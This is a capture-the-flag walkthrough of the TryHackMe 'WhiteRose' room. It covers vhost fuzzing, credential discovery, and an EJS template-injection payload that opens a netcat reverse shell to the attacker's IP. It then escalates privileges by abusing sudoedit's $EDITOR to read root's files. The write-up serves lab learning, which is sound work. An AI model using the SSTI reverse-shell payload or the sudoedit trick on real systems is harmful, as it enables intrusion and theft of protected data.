






# <h1 align="center">TryHackMe: WhiteRose</h1> 

**Difficulty**: Easy\
**Author**: DILSHAD AHAMMED N\
**Room Link**: [https://tryhackme.com/room/whiterose](https://tryhackme.com/room/whiterose)\
**IP**: *10.10.85.2*

---

## Overview

This is my own walkthrough of the WhiteRose room on TryHackMe. I used some different techniques than the original write-up, particularly for gaining shell access and privilege escalation.

We'll cover:

- Enumeration
- Vhost discovery
- Authentication bypass and account discovery
- Exploiting an SSTI vulnerability in EJS
- Custom reverse shell payload
- Privilege escalation using sudoedit `$EDITOR` abuse

---

### Nmap Scan

```bash
nmap 10.10.85.2
```

**Ports discovered:**

- 22 (SSH)
- 80 (HTTP)

Visiting http://10.10.85.2/ redirects us to http://cyprusbank.thm/, so I added it to our hosts file:

```bash
10.10.85.2 cyprusbank.thm
```
Afterward, visiting http://cyprusbank.thm/ displays only a maintenance message.



---

## Vhost Enumeration

Since directory fuzzing revealed nothing, I attempted virtual host (vhost) fuzzing:

```bash
ffuf -u 'http://cyprusbank.thm/' -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -t 100 -ic -fw 1
```

### Results:

```
www     [Status: 200]
admin   [Status: 302]
```

I updated `/etc/hosts` with:

```
10.10.85.2 cyprusbank.thm www.cyprusbank.thm admin.cyprusbank.thm
```

Visiting `http://admin.cyprusbank.thm/` redirected to `/login`.



---

## Gaining Access as Olivia Cortez

Using the credentials `Olivia Cortez:olivi8` (provided in the room), I logged in to `admin.cyprusbank.thm` and gained access to:

- `/accounts`
- `/transactions`
- `/search`

But I couldn’t view customer phone numbers or access `/settings`.


---

## Finding Credentials for Gayle Bev

Going to `Messages` at `http://admin.cyprusbank.thm/messages/?c=5`, I found a chat window.

When sending a new message, the oldest one disappeared. Changing the `c` parameter to a larger number:

```bash
http://admin.cyprusbank.thm/messages/?c=10
```

Displayed older messages, including credentials for **Gayle Bev**.



---

## EJS SSTI Discovery

Logging in as **Gayle Bev**, I now had access to phone numbers and the previously restricted `/settings` page.

Testing the form didn’t reveal any obvious vulnerabilities. So I fuzzed for extra parameters using `ffuf`:

```bash
ffuf -u 'http://admin.cyprusbank.thm/settings' -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Cookie: connect.sid=...' \
  -d 'name=test&password=test&FUZZ=test' \
  -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt \
  -t 100 -fs 2098
```

### Interesting Parameters:

```
include, client, async, error, message
```

Error messages showed this stack trace:

```
TypeError: /home/web/app/views/settings.ejs:4
    <%- include("../components/head"); %>
include is not a function
```

From this and other results, I concluded the app used **EJS (Embedded JavaScript Templates)**. The presence of `client`, `async`, and the stack trace hinted that **SSTI (Server-Side Template Injection)** was likely.

---

## Exploiting EJS SSTI for RCE

I crafted the following payload to inject into a vulnerable parameter:

```bash
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc <MY_IP> 1337 -e bash');s
```

Set up a listener:

```bash
nc -lvnp 1337
```

Then sent the payload via the settings form and successfully caught a reverse shell as `web`.



---

## Privilege Escalation via sudoedit

Running `sudo -l`:

```bash
User web may run the following commands on cyprusbank:
  (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

### Exploiting `$EDITOR` for File Read

```bash
export EDITOR="vim -- /root/root.txt"
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

This opened `/root/root.txt` in Vim (as root) along with the config file. From here, I simply read the flag.



---

## Flags

- **User Flag**: Found in `/home/`
- **Root Flag**: Read using `sudoedit` and `$EDITOR` trick

---

## Takeaways

- Always check for vhosts when directory fuzzing fails.
- Node.js + EJS can be vulnerable to SSTI if misconfigured.
- `sudoedit` is commonly misused in CTFs — always check if `$EDITOR` can be abused.


